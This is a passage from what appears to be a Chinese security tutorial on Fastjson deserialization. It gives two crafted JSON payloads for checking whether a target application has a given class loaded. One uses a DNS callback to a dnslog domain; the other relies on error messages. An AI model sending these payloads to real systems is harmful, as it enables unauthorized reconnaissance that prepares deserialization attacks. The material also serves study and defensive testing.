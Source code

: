 ## 3.2 dnslog 回显判断法

`payload35`：

```plain
{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{1:{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}},"country":"aaa.qmc8xj4s.dnslog.pw"}}}
```

只有`MacOS`可以`ping`带花括号的域名，`Linux`和`Windows`会报错，所以该`payload`需要特定环境才可以。

## 3.3 报错回显判断法

`payload36`：

```plain
{"x": {"@type": "java.lang.Character"{"@type": "java.lang.Class","val": "com.mysql.jdbc.Driver"}}
```

[![](assets/1706254407-eb9216402a4b6541b0f0592f5f6d36bd.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766482187-414c1b41-2d60-4b08-bb6e-a631f8579b1c.png)  
[![](assets/1706254407-d1cd435227664822f046ca9080594ab2.png)](https://cdn.nlark.com/yuque/0/2023/png/25360791/1697766568952-dc4b6166-67a6-481e-a096-94484b44711c.png)
